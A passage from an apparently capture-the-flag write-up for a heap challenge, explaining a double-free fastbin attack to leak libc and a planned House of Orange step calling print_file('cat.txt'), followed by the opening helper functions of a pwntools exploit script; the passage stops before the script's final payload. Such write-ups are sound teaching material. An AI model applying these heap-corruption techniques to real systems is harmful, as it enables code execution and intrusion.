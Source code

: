 By abusing double free, we can coerce malloc into returning the chunk at `0x602130`, which in turn means we can write `0x602040` into `creams[0]`, and thus free our fake fastbin chunk by `eat`ing `0`. (The chunk in between is to pass corruption checks.) If we do this, `name` will begin like so:
```
0x602040:    0x0000000000000000    0x00000000000000c1
0x602050:    <  libc pointer  >    <  libc pointer  >
```
... and reintroducing ourselves with the name `AAAAAAAABBBBBBBB` will allow us to leak libc.

From here, we might get stuck. Ideally, we would finish by using the same exploit and tricking `malloc` into returning a fake (misaligned) chunk of size `7f` right above `__malloc_hook`, then writing what we want into `__malloc_hook`. But such a chunk would be of fastbin size, and we can only allocate chunks of size up to `0x60`, so that wouldn't work.

Eventually, we remember than we are in libc 2.23, which is coincidentally the version right before an exploit called House of Orange was patched. This exploit (in a _very_ brief nutshell; see [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c) for more details, referring to "phase two" of the attack) allows us to call an arbitrary function with a string by `malloc`ing after `free`ing a smallbin chunk for which we can write to after being freed. We might consider the standard `system("/bin/sh")`; however, when this is manually tested, we notice that `system` will silently crash and do nothing. This limitation is because we are using `LD_PRELOAD`: `/bin/sh` will crash when executed with this wrong version of libc. (This issue means that any normal finish involving getting a shell probably won't work). But we recall the secret `print_file` function: we can simply call `print_file("cat.txt")`. Now that we know what to do, we give our exploit script (with useful comments):
```python
from pwn import *
import time

""" Helper methods """
def wait():
	time.sleep(0.05)
def flush():
	return p.recv(4096)

def buy(name, amt):
	p.sendline("1")
	p.recvuntil("How much sice cream do you want?")
	p.sendline(str(amt))
	p.recvuntil("What flavor?")
	p.sendline(name)
	p.recvuntil("4. Exit")
	wait()
def eat(n):
	p.sendline("2")
	p.recvuntil("Which sice cream do you want to eat?")
	p.sendline(str(n))
	p.recvuntil("4. Exit\n")
	wait()
def rename(s):
	p.sendline("3")
	p.recvuntil("What's your name again?")
	p.sendline(s)
	wait()
	return flush()

# Converts a string containing memory into a packed exploit string
def str2payload(s):
	s = s.replace("\n"," ")
	s = s.replace("\t"," ")
	# We ignore chunks ending with ":" for convenience
	mem = [x for x in s.split(" ") if x is not "" and not x[-1] == ":"]
	nums = [int(x,16) for x in mem]
	return ''.join([p64(x) for x in nums])

```